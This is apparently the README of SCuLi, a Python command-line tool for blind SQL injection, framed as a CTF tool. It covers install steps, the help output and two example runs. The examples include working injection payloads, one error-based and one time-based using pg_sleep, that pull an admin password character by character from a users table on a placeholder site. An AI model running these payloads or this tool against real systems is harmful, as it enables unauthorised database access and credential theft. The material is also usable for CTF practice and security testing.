 # SCuLi

A beautiful named tool to perform blind SQLi injection.

Are implemented in this version:
- Basic conditionnal responses *sync* and *async* mode.
- Error based *sync* and *async* mode.
- Time based *sync* and *async* mode.

Future developpements:
- SQLi by *OAST*.
- Interactive setup of *SCuLi*.

### Notes for users

You can modify the ALPHABET in `code/utils.py`, by default alphabet is `0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ _-&#$!%*~<>`.

Be careful when setting `--speed` option, `len(ALPHABET)*password_size` requests are sent in few seconds.

When using `--delay` and `--speed`, the delay is exectued between each password index exfiltration.

<br>

# Install

No requirements except a working `python3`.

```bash
git clone https://github.com/Baabbou/SCuLi.git
cd SCuLi
pip3 install -r requirements.txt
```
<br>

# Uses

**Help:**
```
$ python3 ./SCuLi.py --help
usage: SCuLi [-h] [-d DELAY] [--cookie COOKIE] [--proxy PROXY] [-i INPUT] [-s] URL type method payload

A blind SQL Injector.

positional arguments:
  URL
  type                  Can be: basic, error, time, xOAST
  method                Can be: GET or POST
  payload               Example: `' AND SUBSTR((SELECT <data> FROM <table> WHERE <filter>='<value>'),<index>,1)='<char>'--`

options:
  -h, --help            show this help message and exit
  -d DELAY, --delay DELAY
                        In seconds. Example: `0.5`
  --cookie COOKIE       Example: `PHPSESSID=JWT; csrf=MD5-STUFF`
  --proxy PROXY         Example: `http://127.0.0.1:8080`
  -i INPUT, --input INPUT
                        Example: `./example_input.json`
  -s, --speed           Request are now made as async requests

Don't hack good people pls.
```
<br>

**Simple Example:**
```bash
$ cat input.json
{
    "params": {
        "username": "admin<>",
        "password": "p4ssw0rd"
    }
}

$ python3 ./SCuLi.py "http://vulnerable.net/" basic GET "' AND SUBSTRING((SELECT passwd from users where uname='admin'),<index>,1)='<char>' AND 1=TO_CHAR(1/0)--" -i "input.json" -d 1.5
```
<br>

**Complex example:**
```bash
$ cat input.json
{
    "params": {},
    "cookie": "TrackingId=sqlihere<>; session=MD5-Stuff"
}

$ python3 ./SCuLi.py "https://vulnerable.net/login" time GET "abc'%3b SELECT CASE WHEN (SUBSTRING((SELECT passwd from users where uname='admin'),<index>,1)='<char>') THEN pg_sleep(3) ELSE pg_sleep(0) END --" -i input.json --proxy "http://127.0.0.1:8080" --speed
```
<br>

# Warning

Don't use it for bad things, it's just a CTF tool.
It's also still in developement so don't be rude with it :)

<br>


# Contact

Don't contact me.
